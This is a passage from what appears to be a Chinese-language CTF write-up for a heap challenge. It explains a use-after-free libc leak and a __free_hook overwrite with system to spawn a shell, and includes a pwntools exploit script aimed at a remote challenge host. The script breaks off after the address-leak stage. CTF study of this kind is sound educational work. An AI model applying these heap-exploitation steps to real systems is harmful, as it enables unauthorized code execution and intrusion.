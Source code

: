 接著就把`/bin/sh\x00`寫到note #2，接著就不斷add_note，把`__free_hook`的address拿到手，然後再把system address寫到`__free_hook`，最後把含有`/bin/sh\x00`的note #2 free掉，結果如下圖:
![image](https://hackmd.io/_uploads/HkGsPGfL6.png)
從上圖得知，note #4的address已經被我們換成`__free_hook` address，並且實際跟進去就是system address，最後只要free掉note #2就可以開shell了

## Exploit - Leak Libc(UAF) + Double Free(?)
:::spoiler Method 1
```python
from pwn import *

r = process('./chal')
r = remote('10.113.184.121', 10058)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

def add_note(idx, len):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Length: ')
    r.send(str(len).encode())

def read_note(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvline()

def write_note(idx, content):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Content: ')
    r.send(content)

def del_note(idx):
    r.recvuntil(b'choice: ')
    r.send(b'4')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())

# Leak libc address
add_note(12, 0x420)
add_note(13, 0x420)
add_note(14, 0x420)
del_note(12)
del_note(13)
add_note(12, 0x420)
read_note(12)

leak_libc = u64(r.recv(8))
libc_base = leak_libc - 0x1ed0e0
system_addr = libc_base + libc.symbols['system']
free_hook = libc_base + 0x1eee48
log.success(f'Leak Libc = {hex(leak_libc)}')
log.success(f'Libc Base = {hex(libc_base)}')
log.success(f'System Address = {hex(system_addr)}')
log.success(f'Free Hook = {hex(free_hook)}')
```